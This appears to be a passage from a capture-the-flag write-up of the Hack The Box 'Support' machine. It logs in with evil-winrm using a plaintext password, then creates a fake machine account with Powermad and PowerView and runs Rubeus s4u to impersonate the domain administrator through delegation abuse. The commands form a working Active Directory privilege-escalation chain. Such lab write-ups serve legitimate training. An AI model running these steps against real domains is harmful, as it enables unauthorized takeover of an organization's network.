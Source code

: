 ```bash
evil-winrm -i <Target-ip> -u support -p 'Ironside47pleasure40Watchful'
```
### After wirnrm as Support user we can find the user flag on the support user desktop.

### Downloading Dependencies to carry out the attack which bloodhound Suggested
```
powermad.ps1
powerview.ps1
Rubeus.exe
```

## To find how many machine account a domain user can create

```powershell
. .\Powerview.ps1

Get-DomainObject -Identity "DC=Support, DC=HTB" | select ms-ds-machineaccountquota
```

![Machineqoute](https://c00lrabbit.github.io/assets/Images/Support/machineqoute.png)
- Since we have access to create machine account we can carry out this attack.

### To create a Machine account

```powershell
. .\Powermad.ps1
New-MachineAccount -MachineAccount FakePc -Password $(ConvertTo-SecureString 'Password@123' -AsPlainText -Force)
```

```powershell
$ComputerSid = Get-DomainComputer FakePc -Properties objectsid | Select -Expand objectsid

#To get Sid

$ComputerSid
S-1-5-21-1677581083-3380853377-188903654-5607
```

## Follow the steps in the bloodhound

![BloodhoundAbuse](https://c00lrabbit.github.io/assets/Images/Support/BloodHound abuse.png)

```powershell
./Rubeus.exe s4u /user:attackersys$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:administrator /msdsspn:cifs/DC.SUPPORT.HTB /ptt
```

![Rubeus](https://c00lrabbit.github.io/assets/Images/Support/Rubeus.png)
